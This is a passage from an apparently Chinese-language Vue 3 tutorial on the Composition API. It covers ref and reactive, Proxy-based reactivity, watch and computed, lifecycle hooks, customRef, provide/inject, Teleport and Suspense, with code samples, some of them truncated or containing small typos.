setup() {
let name = ref('sai')
let age = ref(18)
function modifyInfo() {
name.value = 'sai_change'
age.value = 19
console.log(name, age)
}
return {
name,
age,
modifyInfo
}
}
}
</script>写数据，会调用引用实现对象的原型对象的
settersetter内部封装更新页面的逻辑此时页面更新了

8.3.2.2.ref函数处理对象数据类型
先梳理一下ref函数处理基本数据类型的逻辑
- 通过
ref函数包裹基本数据类型，返回一个引用实现对象，可以通过value属性，取得包裹的数据的值 - 响应式实现方式，通过
Object.defineProperty在其原型对象上定义getter和setter
按照类似的逻辑，ref函数处理对象类型的数据，也应该是这样的
使用
ref包裹对象类型的数据1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29<template>
<h1>我是App组件</h1>
<h2>姓名： {{person.name}}</h2>
<h2>年龄： {{person.age}}</h2>
<button @click="modifyInfo">修改信息</button>
</template>
<script>
import {ref} from 'vue'
export default {
name: 'App',
setup() {
let person = ref({
name: 'sai',
age: 18
})
function modifyInfo() {
}
return {
person,
modifyInfo
}
}
}
</script>
根据
vue2的经验，vue3应该会对对象的每个属性，都设置getter和setter，所以我们修改age属性时，应该是person.value.age.value=191
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32<template>
<h1>我是App组件</h1>
<h2>姓名： {{person.name}}</h2>
<h2>年龄： {{person.age}}</h2>
<button @click="modifyInfo">修改信息</button>
</template>
<script>
import {ref} from 'vue'
export default {
name: 'App',
setup() {
let person = ref({
name: 'sai',
age: 18
})
function modifyInfo() {
// 修改数据
person.value.name.value = 'sai_modify'
person.value.age.value = 19
}
return {
person,
modifyInfo
}
}
}
</script>但是，此时修改不了

为啥咧
打印下
person引用实现对象，以及value属性1
2
3
4
5
6
7function modifyInfo() {
// 修改数据
// person.value.name.value = 'sai_modify'
// person.value.age.value = 19
console.log(person)
console.log(person.value)
}
可以看到，
ref函数处理对象数据类型，用的是ES6中的Proxy，关于Proxy下一小节详细讲解
8.3.2.3.小结：ref函数
- 作用：定义一个响应式的数据
- 语法：
const xxx = ref(initValue)- 创建一个包含响应式数据的引用对象（
reference对象） JS中操作数据：xxx.value- 模板中读取数据，不需要
.value，直接<div>{{xxx}}</div>
- 创建一个包含响应式数据的引用对象（
- 备注：
- 接收的数据可以是基本数据类型，也可以是对象数据类型
- 基本数据类型：响应式依然靠的是
Object.defineProperty的get与set - 对象数据类型：内部
求助了Vue3中的一个新函数——reactive函数
8.3.3.reactive函数
将源对象交给reactive处理，返回的是一个代理对象
8.3.3.1.返回的是Proxy对象
1 | <template> |

将源数据改成了Proxy类型的对象
8.3.3.2.修改对象数据类型
此时可以直接修改对象类型的数据了
1 | <template> |

8.3.3.3.修改嵌套的对象数据
即使对象嵌套的很深，reactive函数也可以监测到其变化：
1 | <template> |

8.3.3.4.修改数组数据类型
被reactive包裹的数组，可以直接通过索引来修改数组类型的数据
1 | <template> |
修改后的效果：

小结：reactive函数
- 作用：定义一个对象类型的响应式数据（基本数据类型不要用它，要用
ref函数） - 语法：
const 代理对象 = reactive(源对象)，接收一个对象（或数组），返回一个代理对象（Proxy的实例对象，简称Proxy对象） reactive定义的响应式数据是深层次的- 内部基于
ES6的Proxy实现，通过代理对象操作源对象的内部数据
8.3.4.Vue3中的响应式原理
8.3.4.1.Vue2的响应式
实现原理：
对象类型：通过
Object.defineProperty()对属性的读取、修改进行拦截（数据劫持）1
2
3
4Object.defineProperty(data, 'count', {
get() {},
set() {}
})数组类型：通过重写更新数组的一系列方法来进行拦截。（对数组的变更方法进行了包裹）
存在问题：
对象类型：新增属性、删除属性，界面不会更新
新增的属性，要通过
this.$set或Vue.set才会变成响应式的1
this.$set(this.person, 'sex', '女')
删除的属性，要通过
this.$delete或Vue.delete才会变成响应式的1
this.$delete(this.person, 'name')
数组类型：直接通过下标修改数组，界面不会自动更新
要通过
this.$set或Vue.set才会变成响应式的1
this.$set(this.person.hobby, 0, '逛街')
或者调用
splice方法1
this.person.hobby.splice(0, 1, '逛街')
8.3.4.2.Vue3的响应式
- 实现原理：
- 通过
Proxy（代理）：拦截对象中任意属性的变化，包括：属性值的读写、属性的添加、删除等 - 通过
Reflect（反射）：对被代理对象的属性进行操作 MDN文档中描述的Proxy和Reflect
- 通过
- 验证对象的操作
- 验证数组的操作
- 模拟
Vue2的响应式 - 模拟
Vue3的响应式- 验证
Proxy基本语法- 读取：
get - 修改和新增：
set - 删除：
deleteProperty
- 读取：
- 验证
Reflect基本语法- 获取属性值
- 修改属性值
- 删除属性
ECMA正在尝试把Object上的方法，移植到Reflect身上Obeject.defineProperty- 基本使用
- 一旦有异常就会挂掉，除非用
try catch捕获到
Reflect.defineProperty- j基本使用
- 会有布尔类型的返回值，异常处理比较方便
- 对于框架封装来说，使用
Reflect相对会好一点
- 使用
Reflect配合Proxy
- 验证
8.3.5.reactive对比ref
- 从定义数据角度对比
ref用来定义：基本数据类型reactive用来定义：对象（或数组）类型数据- 备注：
ref也可以用来定义对象（或数组）类型数据，它内部会自动通过reactive转为代理对象
- 从原理角度对比
ref通过Object.defineProperty()的get与set来实现响应式（数据劫持）reactive通过使用Proxy来实现响应式（数据劫持），并通过Reflect操作源对象内部的数据
- 从使用角度对比
ref定义的数据：操作数据需要.value，读取数据时模板中直接读取不需要.value
8.3.6.setup的两个注意点
8.3.6.1.setup执行的时机
- 在
beforeCreate之前执行一次，this是undefined
8.3.6.2.setup的参数
参数验证
1 | set(a, b, c) { |
图片
props参数
值为对象，包含：组件外部传递过来，且在组件内部声明接收了的属性
vue2中的props如果使用
props接收了，传的数据挂载在vc实例上如果没有使用
props接收，传的数据挂载在$attrs上
vue3中的propsApp.vue1
2
3
4
5
6
7
8
9
10
11
12<template>
<Demo msg='hello' addredd='beijing'/>
</template>
<script>
import Demo from './components/Demo'
export default {
name: 'App',
components: {
Demo
}
}
</script>Demo.vue1
2
3
4
5
6export default {
props: ['msg', 'address'],
set(props) {
console.log(props)// 会把接收到的所有props的值，整理成`Proxy`类型的对象
}
}
context参数
上下文对象，身上有三个属性使我们关心的
attrsvue2的$attrs- 父组件给子组件传了数据，子组件如果没有使用
props接收，则会放在this.$attrs对象上
- 父组件给子组件传了数据，子组件如果没有使用
vue3的attrs- 如果没有使用
props接收到的数据，会放在attrs属性上，相当于vue2的this.$attrs
- 如果没有使用
emit- 如果给子组件绑定了自定义事件，
vue3中需要使用emits数组配置项，在子组件中来接收命名，否则控制台会有警告
- 如果给子组件绑定了自定义事件，
slotsvue2中的插槽- 子组件的对象标签中，写了新的标签内容，会以虚拟
dom的形式，挂载在父组件的$slot属性上（不论子组件有没有使用插槽来接收）
- 子组件的对象标签中，写了新的标签内容，会以虚拟
vue3中的插槽- 子组件的对象标签中，写了新的标签内容，会以虚拟
dom的形式，slots属性上（不论子组件有没有使用插槽来接收） vue3中的具名插槽的写法，请使用v-slot:name，不要使用vue2的slot="name"这种写法
- 子组件的对象标签中，写了新的标签内容，会以虚拟
小结：setup的两个注意点
setup执行的时机- 在
beforeCreate之前执行一次，this是undefined
- 在
setup的参数props参数：值为对象，包含：组件外部传递过来，且组件内部声明接收了的属性context参数：上下文对象attrs：值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性，相当于this.$attrsslot：收到的插槽内容，相当于this.$slotsemit：分发自定义事件的函数，相当于this.$emit
8.3.7.计算属性与监视
8.3.7.1.computed函数
与
vue2.x中computed配置功能一致写法：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39<template>
<h2>
{{person.fullName}}
</h2>
</template>
<script>
import {reactive, computed} from 'vue'
export default {
setup() {
// 数据
let person = reactive({
firstName: '张',
lastName: '三'
})
// 计算属性简写
// 注意可以直接给Proxy类型的person对象上，添加计算属性，也是响应式的
person.fullName1 = computed(() => {
return person.firstName + '-' + person.lastName
})
// 计算属性完整写法
person.fullName2 = computed({
get() {
return person.firstName + '-' + person.lastName
},
set(value) {
const nameArr = value.split('-')
person.firstName = nameArr[0]
person.lastName = nameArr[1]
}
})
return {
person }
}
}
</script>
8.3.7.2.watch函数
与
vue2.x中watch配置功能一致，接收三个参数- 监视的是谁
- 监视的回调
- 监视的配置
两个注意点
- 监视
reactive定义的响应式数据时，oldValue无法正确获取、强制开启了深度监视（deep配置失效） - 监视
reactive定义的响应式数据中某个属性时，deep配置有效
- 监视
监视
ref定义的响应式数据写监视的对象时，监视的应该是一个结构，而不是具体的值
- 如果是基本数据类型，不需要添加
.value； - 如果使用
ref包裹了对象类型数据，监视时需要添加.valueRefImp对象的value此时不再是一个具体的值，而是一个Proxy对象，再怎么修改这个对象里面的值，这个对象的内存地址也不会变，自然也就监视不到变化了- 所以真正的要监视的，应该是通过
.value获取到的Proxy对象 - 或者也可以不加
.value，但是要添加深度监视配置项
1
2
3watch(sum, (newValue, oldValue) => {
console.log('sum变化了', newVlaue, oldValue)
}, {immediate: true})- 如果是基本数据类型，不需要添加
监视多个
ref定义的响应式数据1
2
3watch([sum, msg], (newValue, oldValue) => {
console.log('sum或msg变化了', newValue, oldValue)
})输出的也是数组：

监视
reactive定义的响应式数据若
watch监视的是reactive定义的响应式数据，则无法正确获得oldValue，newValue和oldValue都是Proxy类型的对象
如果一定要获取
oldValue，则用ref定义源数据若
watch监视的是reactive定义的响应式数据，则强制开启了深度监视（默认开启了），并且关闭不再生效1
2
3watch(person, (newValue, oldValue) => {
console.log('person变化了', newValue, oldValue)
},{immediate: true, deep: false}) // 此处的deep配置不再奏效
监视
reactive定义的响应式数据中的某个属性，第一个参数要写成一个函数，此时的deep配置项是有效的1
2
3watch(() => person.age, (newValue, oldValue) => {
console.log('preson的age变化了', newValue, oldValue)
})一般监视的属性是一个对象时，才会开启深度监视（获取不到
oldValue）1
2
3watch(() => person.job, (newValue, oldValue) => {
console.log('preson的job变化了', newValue, oldValue)
}, {immediate: true, deep: true}) // job中还有salary属性，可以开启深度监视监视
reactive定义的响应式数据中的某些属性1
2
3watch([() => person.job, () => person.name], (newValue, oldValue) => {
console.log('preson的job或name变化了', newValue, oldValue)
}, {immediate: true, deep: true})
8.3.7.3.watchEffect函数
watch的套路是：既要指明监视的属性，也要指明监视的回调watchEffect的套路是，不用指明监视的是哪个属性，监视的回调中用到哪个属性，那就监视哪个属性watchEffect有点像computed：但
computed注重计算出来的值（回调函数的返回值），所以必须要写返回值而
watchEffect更注重的是过程（回调函数的函数体），多以不用写返回值1
2
3
4
5
6// watchEffect所指定的回调中，用到的数据只要发生了变化，则直接重新执行回调
watchEffect(() => {
const x1 = sum.value
const x2 = person.age
console.log('watchEffect配置的回调执行了')
})
8.3.8.生命周期
vue3中可以继续使用vue2中的生命周期钩子，但有两个被更名：beforeDestroy改名为beforeUnmountdestroyed改名为unmounted
vue3中也提供了Compsition API形式的生命周期钩子，与vue2中钩子的对应关系如下：beforeCreate===>setup()created===>setup()beforeMount===>onBeforeMountmounted===>onMountedbeforeUpdate===>onBeforeUpdateupdated===>onUpdatedbeforeUnmount===>onBeforeUnmountunmounted===>onUnmounted- 备注：使用时需要引入
8.3.9.自定义hook函数
- 什么是
hook- 本质是一个函数，把
setup函数中使用的Composition API进行了封装 - 类似
vue2中的mixin
- 本质是一个函数，把
- 自定义
hook的优势- 复用代码，让
setup中的逻辑更清楚易懂
- 复用代码，让
定义hook
hook/usePoint.js
1 | import {reactive, onMounted, onBeforeUnmount} from 'vue' |
使用hook
1 | <template> |
8.3.10.toRef
使用reactive包裹深层次对象，在使用时需要写多个点，很麻烦，可以用toRef来替代这个操作
1 | <template> |
小结：
作用，创建一个
ref对象，其value值指向另一个对象中的某个属性语法：
const name = toRef(person, 'name')应用：要将响应式对象中的某个属性，单独提供给外部使用时
扩展：
toRefs与toRef功能一致，但可以批量创建多个ref对象，语法：toRefs(person)1
2const x = toRefs(person)
console.log(x)
返回值是一个对象，
return的时候需要解构赋值返回对象的
key，是源对象的key，- 若源对象
key是基本数据类型，则key对应的属性值，是一个引用实现对象，模板中使用时不用加.value进行调用， - 若源对象
key的值仍是一个对象，则key对应的属性值，是一个Proxy实例对象
1
2
3return {
...toRefs(person)
}- 若源对象
8.4.其它Composition API
8.4.1.shallowReactive和shallowRef
shallowReactive：只处理对象最外层属性的响应式（浅响应式）shallowRef：只处理基本数据类型的响应式，不进行对象的响应式处理传的是基本类型，和
ref一样传的是对象类型数据，就不再求助于
reactive了，就不再是响应式了
什么时候使用
- 如果有一个对象数据，结构比较深，但变化时只是外层属性变化，使用
shallowReactive - 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生成新的对象来替换，使用
shallowRef
- 如果有一个对象数据，结构比较深，但变化时只是外层属性变化，使用
8.4.2.readonly与shallowReadonly
readonly：让一个响应式数据变为只读的（深只读）readonly是一个函数，接收响应式数据作为参数1
2
3
4
5
6
7
8
9
10
11
12
13
14
15setup() {
let person = reactive({
name: 'sai',
age: 18,
job: {
j1: {
salary: 30
}
}
})
person = readonly(person)
return {
...toRefs(person)
}
}
shallowReadonly：让一个响应式数据变为只读的（浅只读）1
person = shallowReadonly(person)
上述例子中，若使用
shallowReadonly函数进行处理，则第一层数据不允许修改，但是里面的salary还是可以修改的对于
ref包裹的响应式数据，没有必要用shallowReadonly，因为基本数据类型始终就是一层应用场景：不希望数据被修改时
person的数据不是自己定义的，用的是别人的组件，接收的时候可以用readonly限制一下，防止误操作
8.4.3.toRaw与markRaw
toRaw作用：将一个由
reactive生成的响应式对象，变成普通对象（不能处理ref定义的响应式数据）1
2
3
4
5
6
7
8
9let person = reactive({
name: 'sai',
age: 18
})
function showRawPerson() {
const p = toRaw(person)
console.log(p)
}应用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新
makeRaw- 作用：标记一个对象，使其永远不会再成为响应式对象
- 但是对于数据的更改仍然是生效的，只是
vue不再做响应式处理了
- 但是对于数据的更改仍然是生效的，只是
- 应用场景：
- 有些值不应被设置为响应式的，例如复杂的第三方类库等
- 当渲染具有不可变数据源的大列表时，跳过响应式转换可以提高性能
- 作用：标记一个对象，使其永远不会再成为响应式对象
8.4.4.customRef
作用：创建一个自定义的
ref，并对其依赖项跟踪和更新触发，进行显示控制- 读数据找
get()，写数据找set() - 在关键的地方调用
track和trigger
- 读数据找
实现防抖效果
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40<template>
<input type="text" v-model="keyword">
<h3>
{{keyword}}
</h3>
</template>
<script>
import {ref, customRef} from 'vue'
export default {
name: 'Demo',
setup() {
// let keyword = ref('hello') // 使用vue准备好的内置的ref
// 自定义一个myRef
function myRef(value, delay) {
let timer
// 通过customRef去实现自定义
return customRef((track, trigger) => {
return {
get() {
track() // 告诉vue这个value值是需要被“追踪”的
return value
},
set(newValue) {
clearTimeout(timer)
timer = setTimeout(() => {
value = newValue
trigger() // 告诉vue去更新页面
}, delay)
}
}
})
}
let keyword = myRef('hello', 500)
return {
keyword
}
}
}
</script>
8.4.5.provide与inject

作用：实现祖组件与后代组件间通信
- 虽然也可以用来父子组件通信，但那样直接用
props即可
- 虽然也可以用来父子组件通信，但那样直接用
套路：父组件有一个
provide选项来提供数据，后代组件有一个inject选项来开始使用这些数据具体写法：
1.祖先组件中
1
2
3
4
5
6
7
8
9
10import {provide} from 'vue'
...
setup() {
...
let person = reactive({
name: 'sai',
age: 18
})
provide('person', person)
}2.孙子组件中
1
2
3
4
5
6
7import {inject} from 'vue'
setup() {
...
const person = inject('person')
return {person}
}
8.4.6.响应式数据的判断
isRef：检查一个值，是否为一个ref对象isReactive：检查一个对象，是否是由reactive创建的响应式代理isReadonly：检查一个对象，是否是由readonly创建的只读代理isProxy：检查一个对象，是否是由reactive或者readonly方法创建的代理
8.5.Composition API的优势
8.5.1.Options API存在的问题
使用传统Options API，新增或者修改一个需求，就需要分别在data、methods、computed里修改

如果一个组件里的功能特别多
- 一个功能的数据、方法、计算属性都是拆散的
- 每个配置项里堆积了不同功能的代码
- 维护某一个功能代码时，就需要打开一个庞大的
data找啊找，然后再打开一个庞大的method找啊找，可能还要去computed、watch、生命周期钩子里不断的查找修改
8.5.2.Composition API的优势
我们可以更加优雅的组织我们的代码，函数。让相关功能的代码更加有序的组织在一起


8.6.新的组件
8.6.1.Fragment
在
vue2中，组件必须有一个根标签在
vue3中，组件可以没有根标签，内部会将多个标签包含在一个Fragment虚拟元素中- 好处：减少标签层级，减小内存占用

8.6.2.Teleport
Teleport是一种能够将我们的组件html结构移动到指定位置的技术后代组件中，直接显示的弹窗，会被包裹在
dom结构内，即使可以使用定位，但组件嵌套一多，写起来也麻烦移动位置可写的值：body- 组件的嵌套再多，渲染的
dom结构，也是直接在body下的
- 组件的嵌套再多，渲染的
css选择器
1
2
3
4
5
6
7
8
9
10
11
12<teleport to='移动位置'>
<div v-if='isShow' class='mask'>
<div class='dialog'>
<h3>
我是一个弹窗
</h3>
<button @click='isShow=false'>
关闭弹窗
</button>
</div>
</div>
</teleport>
8.6.3.Suspense
等待异步组件时渲染一些后备内容，获得更好地用户体验
Suspense底层是用插槽实现的v-slot:defalut- 用于放置本应该展示的组件
v-slot:fallback- 组件未加载时，展示的内容
使用步骤：
1.异步引入组件
1
2
3import {defineAsyncComponent} from 'vue'
// import Child from './components/Child.vue' // 静态引入（同步引入）
const Child = defineAsyncComponent(() => import('./components/Child.vue')) // 动态引入（异步引入）2.使用
Suspence包裹组件，并配置好default与fallbackApp.vue1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17<template>
<div class='app'>
<h3>
我是App组件
</h3>
<Suspence>
<template v-slot:default>
<Child/>
</template>
<template v-slot:fallback>
<h3>
加载中...
</h3>
</template>
</Suspence>
</div>
</template>- 同步引入情况下，会等到所有的组件引入加载完，才会展示
- 异步引入情况下，被设置成异步引入的组件，不会阻塞整个页面的加载
之前说
setup不能返回Promise，那是因为没有讲到这里，其实是可以的Child.vue1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21<template>
<div class="child">
<h3>我是Child组件</h3>
{{sum}}
</div>
</template>
<script>
import {ref} from 'vue'
export default {
name: 'Child',
setup() {
let sum = ref(0)
return new Promise((resolve, reject) => {
setTimeout(() => {
resolve(sum)
}, 1000)
})
}
}
</script>或者写成
async形式1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22<template>
<div class="child">
<h3>我是Child组件</h3>
{{sum}}
</div>
</template>
<script>
import {ref} from 'vue'
export default {
name: 'Child',
async setup() {
let sum = ref(0)
let p = new Promise((resolve, reject) => {
setTimeout(() => {
resolve(sum)
}, 1000)
})
return await p
}
}
</script>可以配合
Suspence使用
8.7.其他
8.7.1.全局API的转移
vue2有许多全局API和配置例如：注册全局组件、注册全局指令等
1
2
3
4
5
6
7
8
9
10
11
12// 注册全局组件
Vue.component('MyButton', {
data: () => ({
count: 0
}),
template: `<button @click="count++>Clicked {{count}} times.</button>`
})
// 注册全局指令
Vue.directive('focus', {
inserted: el => el.focus()
})
vue3中对这些API做出了调整将全局的
API，即Vue.xxx调整到应用实例app上2.x全局API（Vue） 3.x实例API（app） Vue.config.xxx app.config.xxx Vue.config.productionTip 移除 Vue.component app.component Vue.directive app.directive Vue.mixin app.mixin Vue.use app.use Vue.prototype app.config.globalProperties
8.7.2.其他改变
data选项应始终被声明为一个函数过度类名的更改
vue2的写法1
2
3
4
5
6.v-enter, .v-leave-to {
opacity: 0;
}
.v-leave, .v-enter-to {
opacity: 1;
}vue3的写法1
2
3
4
5
6.v-enter-from, .v-leave-to {
opacity: 0;
}
.v-leave-from, .v-enter-to {
opacity: 1;
}
移除
keyCode作为v-on的修饰符，同时也不再支持config.keyCodes移除
v-on.native修饰符父组件中绑定事件
1
2
3
4<my-component
v-on:close = "handleComponentEvent"
v-on:click = "handleNativeClickEvent"
/>子组件中声明自定义事件
1
2
3
4
5<script>
export default {
emits: ['close'] // 没指定的，会认为是原生事件
}
</script>
移除过滤器（
filter）- 过滤器虽然看起来很方便，但它需要一个自定义语法，打破大括号内表达式“只是JavaScript”的假设，这不仅有学习成本，而且有实现成本
- 建议用方法调用或计算属性去替换过滤器
其他
 wechat
wechat alipay
alipay